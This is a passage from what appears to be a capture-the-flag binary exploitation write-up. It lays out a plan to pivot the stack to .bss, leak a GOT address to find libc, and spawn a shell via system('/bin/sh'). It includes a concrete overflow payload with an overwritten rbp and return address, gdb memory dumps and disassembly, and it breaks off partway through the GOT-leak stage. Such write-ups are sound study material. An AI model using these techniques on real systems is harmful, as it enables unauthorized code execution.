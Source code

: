 ### Exploitation plan:
- for the lack of having stack leaks, we need to pivot to `.bss` which is RW and its address known (no PIE).
- leak a GOT address, and calculate libc base address
- call system(`/bin/sh`)


## Stage 1: Pivoting
Here's `.bss` section range:
```
0x0000000000404018 - 0x0000000000404028 is .bss
```

And in runtime, we have these data at `0x404010`:
```
gef➤  
0x404010 <print>:	0x00007ffff7c87be0	0x00007ffff7e045c0
0x404020 <completed.0>:	0x0000000000000000	0x0000000000000000
0x404030:	0x0000000000000000	0x0000000000000000
0x404040:	0x0000000000000000	0x0000000000000000
0x404050:	0x0000000000000000	0x0000000000000000
```

At `0x404010` we notice that libc addresses are stored which indicates that its the GOT section, and hence, we need to avoid overwriting it.

**First payload**: `payload = b"a"*32 + p64(0x404040) + p64(0x401205)`
This fills the entire buffer, and overwrites the saved `rbp` with `0x404040` and the saved `rip` with `0x401205`.
why `rbp` to `0x404040`:
In:
```
   0x0000000000401205 <+54>:	lea    rax,[rbp-0x20]
   0x0000000000401209 <+58>:	mov    rdi,rax
   0x000000000040120c <+61>:	call   0x401183 <gets>
```
`rbp - 0x20` is the start of the buffer; and since, we need to start writing from `0x404020 = rbp - 0x20` hence `rbp` must be `0x404040`.

 
## Stage 2: Leaking GOT
At first, leaking a got entry seems to be easily done with a simple ROP by:
- setting rbp to 0x404030.
- then calling the print part of the main function at `0x401211`.

BUT, the `print` function when it's called, pushes many data to the stack, and this entirely corrupts our ROP chain.
```
gef➤  x/15i 0x00007ffff7c87be0
   0x7ffff7c87be0 <__GI__IO_puts>:	endbr64
   0x7ffff7c87be4 <__GI__IO_puts+4>:	push   rbp
   0x7ffff7c87be5 <__GI__IO_puts+5>:	mov    rbp,rsp
   0x7ffff7c87be8 <__GI__IO_puts+8>:	push   r15
   0x7ffff7c87bea <__GI__IO_puts+10>:	push   r14
   0x7ffff7c87bec <__GI__IO_puts+12>:	push   r13
   0x7ffff7c87bee <__GI__IO_puts+14>:	push   r12
   0x7ffff7c87bf0 <__GI__IO_puts+16>:	mov    r12,rdi
   0x7ffff7c87bf3 <__GI__IO_puts+19>:	push   rbx
   0x7ffff7c87bf4 <__GI__IO_puts+20>:	sub    rsp,0x18
   0x7ffff7c87bf8 <__GI__IO_puts+24>:	call   0x7ffff7c28500 <*ABS*+0xb4cc0@plt>
   0x7ffff7c87bfd <__GI__IO_puts+29>:	mov    r14,QWORD PTR [rip+0x17b21c]        # 0x7ffff7e02e20
   0x7ffff7c87c04 <__GI__IO_puts+36>:	mov    rbx,rax
   0x7ffff7c87c07 <__GI__IO_puts+39>:	mov    r13,QWORD PTR [r14]
   0x7ffff7c87c0a <__GI__IO_puts+42>:	test   DWORD PTR [r13+0x0],0x8000
```
To counter this, we decrease `rsp` so that the pushed data doesn't corrupt our data: